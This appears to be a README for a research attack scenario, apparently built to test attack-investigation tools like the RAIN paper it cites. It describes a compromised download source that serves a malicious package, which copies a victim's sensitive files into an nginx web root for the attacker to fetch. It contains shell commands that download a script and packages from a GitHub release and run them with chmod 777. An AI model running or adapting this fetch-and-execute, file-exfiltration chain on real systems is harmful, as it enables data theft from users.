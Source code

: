 ## Scenario

The victim user tries to download a series of packages for his environment via `wget`. However, one of the source URLs has been compromised by the attacker, in which the original package has been replaced with a malware `mal-package`. 

After execution, `mal-package` copies sensitive files from the victim's original directory to a shared folder, which provides web sources for the shared nginx server on victim's PC.

Finally, the attacker steals those files by connecting and requesting to victim's server.

### Similar scenario

[Rain: Refinable Attack Investigation with On-demand Inter-Process Information Flow Tracking](https://iisp.gatech.edu/sites/default/files/images/rain.pdf)

In their motivating example, the attacker compromised a distribution site of an firefox extension *FireFTP*, the original extension has been replaced with a malicious one.

## Implementation

### sources

Ubuntu 16.04: http://mirror.nus.edu.sg/ubuntu-ISO/16.04/    
nginx 1.4.0: http://nginx.org/download/nginx-1.20.2.tar.gz    
wget 1.20.3: https://ftp.gnu.org/gnu/wget/wget-1.20.3.tar.gz

### Deploy

**Nginx server (Victim IP1)**

* build and install
```
tar xzvf nginx-1.20.2.tar.gz && cd nginx-1.20.2
./configure --prefix=/home/chuqi/local/nginx --error-log-path=PATH=/home/chuqi/log/nginx/error.log
make && make install
```

* configure file

Download the `nginx.conf` file in this github dir.
```
mv nginx.conf /home/chuqi/local/nginx/conf/nginx.conf
```

* web sources

Download the folder `web-source` under this github directory.
```
cp web-source /home/chuqi
```

* deploy
```
help: /home/chuqi/local/nginx/sbin/nginx -h
start: /home/chuqi/local/nginx/sbin/nginx
stop: /home/chuqi/local/nginx/sbin/nginx -s stop
```

**Operations (Victim IP1)**

0. Start nginx server

```
/home/chuqi/local/nginx/sbin/nginx
```

1. Download several packages via wget 
```
wget https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/install.sh \
       https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/util.deb \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg1 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg2 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg3 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg4 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg5 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg6 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg7 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg8 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg9 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg10 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg11 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg12 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg13 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg14 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg15 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg16 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg17 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg18 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg19 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg20 \

chmod 777 install.sh
./install.sh
```
2. Execute malicious `util.sh`

```
util.sh
```

**Exploit (Attacker IP2)**    

Access victim's web-server on attacker's browser:
```
IP1:8080/data/xxx
IP1:8080/images/xxx
```

